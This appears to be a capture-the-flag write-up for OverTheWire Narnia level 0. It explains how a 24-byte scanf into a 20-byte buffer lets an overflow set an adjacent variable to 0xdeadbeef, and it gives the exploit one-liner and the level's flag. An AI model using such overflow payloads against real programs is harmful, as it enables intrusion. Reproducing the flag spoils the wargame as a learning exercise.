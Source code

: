 # OTW - Narnia Notes
## Level: 0

We have access to the following files:
* `narnia0` - Compiled code
* `narnia0.c` - Src code

Taking a look at the src code in `narnia0.c`: 

* We can see that the program will read a user input and store it's value in a variable __buf[20]__

* Our __goal__ is to overrite the value of the variable __val__ so that it matches "`0xdeadbeef`"

* Additionally, the __scanf()__ used to read in the user input can read __24 bytes__ of data - If we are to enter a big enough input we should be able to overrite adjacent memory location of __val__

## Command Ran

```bash
(echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde"; cat;) | ./narnia0
```
__Logic__:
* The `echo` is used to output a big enough string, where the first 20 chars are irrelevant and remaining part - __\xef\xbe\xad\xde__ is used to represent the string __"deadbeef"__ in hex encoding for systems using little endian formatting.

* The `cat` command is used to keep the shell open (as running the command with cat will result in the shell closing immediately 
  * From what I understand this is because the shell that opens up is not running in an interactive mode/terminal, it detects this and closes up automatically

* We pipe the output from `echo` command + the `cat` command to `./narnia0` which gives us the password for the next levels


## Flag
``` WDcYUTG5ul ```